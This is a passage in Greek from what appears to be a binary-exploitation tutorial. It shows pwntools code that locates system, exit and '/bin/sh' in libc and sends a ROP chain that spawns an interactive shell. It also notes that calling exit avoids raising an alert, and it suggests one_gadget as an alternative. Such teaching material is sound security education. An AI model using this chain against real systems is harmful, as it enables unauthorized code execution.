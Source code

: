 Στη συνέχεια, η διεύθυνση της συνάρτησης `system` και η **διεύθυνση** της συμβολοσειράς _"/bin/sh"_ θα υπολογιστούν από τη **βάση διεύθυνση** της **libc** και θα δοθούν στη **βιβλιοθήκη libc.**
```python
BINSH = next(libc.search("/bin/sh")) - 64 #Verify with find /bin/sh
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]

log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))
```
Τέλος, η εκμετάλλευση εκτέλεσης /bin/sh πρόκειται να προετοιμαστεί και να σταλεί:
```python
rop2 = OFFSET + p64(POP_RDI) + p64(BINSH) + p64(SYSTEM) + p64(EXIT)

p.clean()
p.sendline(rop2)

#### Interact with the shell #####
p.interactive() #Interact with the conenction
```
Ας εξηγήσουμε αυτό το τελικό ROP.\
Το τελευταίο ROP (`rop1`) καλέστηκε ξανά τη βασική συνάρτηση, τότε μπορούμε να **εκμεταλλευτούμε ξανά** την **υπερχείλιση** (γι' αυτό το `OFFSET` είναι εδώ ξανά). Τότε, θέλουμε να καλέσουμε το `POP_RDI` δείχνοντας στη **διεύθυνση** του _"/bin/sh"_ (`BINSH`) και να καλέσουμε τη συνάρτηση **system** (`SYSTEM`) επειδή η διεύθυνση του _"/bin/sh"_ θα περαστεί ως παράμετρος.\
Τέλος, η **διεύθυνση της συνάρτησης εξόδου** είναι **καλούμενη** ώστε η διαδικασία να **εξέρχεται ωραία** και να μην δημιουργείται καμία ειδοποίηση.

**Με αυτόν τον τρόπο η εκμετάλλευση θα εκτελέσει ένα \_/bin/sh**\_\*\* shell.\*\*

![](<../../../../../.gitbook/assets/image (143).png>)

## 4(2)- Χρησιμοποιώντας το ONE\_GADGET

Μπορείτε επίσης να χρησιμοποιήσετε [**ONE\_GADGET** ](https://github.com/david942j/one\_gadget) για να αποκτήσετε ένα shell αντί να χρησιμοποιήσετε **system** και **"/bin/sh". ONE\_GADGET** θα βρει μέσα στη βιβλιοθήκη libc κάποιον τρόπο να αποκτήσει ένα shell χρησιμοποιώντας μόνο μία **διεύθυνση ROP**.\
Ωστόσο, συνήθως υπάρχουν κάποιες περιορισμοί, οι πιο κοινοί και εύκολοι να αποφευχθούν είναι όπως `[rsp+0x30] == NULL` Καθώς ελέγχετε τις τιμές μέσα στο **RSP** πρέπει απλώς να στείλετε μερικές περισσότερες NULL τιμές ώστε να αποφευχθεί ο περιορισμός.
